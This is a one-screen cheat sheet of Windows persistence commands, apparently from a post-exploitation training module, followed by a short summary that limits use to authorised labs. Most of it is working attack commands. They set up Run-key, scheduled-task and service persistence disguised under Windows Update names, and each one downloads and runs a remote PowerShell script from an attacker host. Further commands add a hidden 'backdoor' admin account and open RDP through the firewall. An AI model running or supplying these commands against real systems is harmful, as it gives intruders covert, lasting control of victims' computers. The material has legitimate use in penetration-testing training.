 # Minimal cheat sheet (one-screen flow)
```
:: Context
whoami & whoami /priv

:: Working dir
mkdir C:\ProgramData\WinUpdate & attrib +h C:\ProgramData\WinUpdate

:: HKCU Run (no admin)
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v WindowsUpdate /t REG_SZ /d "powershell -NoP -W Hidden -C \"IEX(New-Object Net.WebClient).DownloadString('http://<LHOST>/s.ps1')\"" /f

:: Scheduled task (SYSTEM on boot, admin)
schtasks /create /sc onstart /ru SYSTEM /tn "Windows System Service" /tr "powershell -NoP -W Hidden -C \"IEX(New-Object Net.WebClient).DownloadString('http://<LHOST>/s.ps1')\"" /f

:: Service (admin)
sc create WinUpdate binPath= "cmd.exe /c powershell -NoP -W Hidden -C \"IEX(New-Object Net.WebClient).DownloadString('http://<LHOST>/s.ps1')\"" start= auto & sc start WinUpdate

:: Local admin + RDP (admin)
net user backdoor P@ssw0rd! /add & net localgroup administrators backdoor /add
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```

# Summary
In this Windows post-exploitation module, you establish durable access using native mechanisms: registry Run keys, scheduled tasks, services, startup folder, and (optionally) a new local admin with RDP enabled. Select a method appropriate to your privileges, implement with careful quoting (favor -EncodedCommand), verify and test across reboots, and log every change for cleanup. Use only in authorized lab environments.
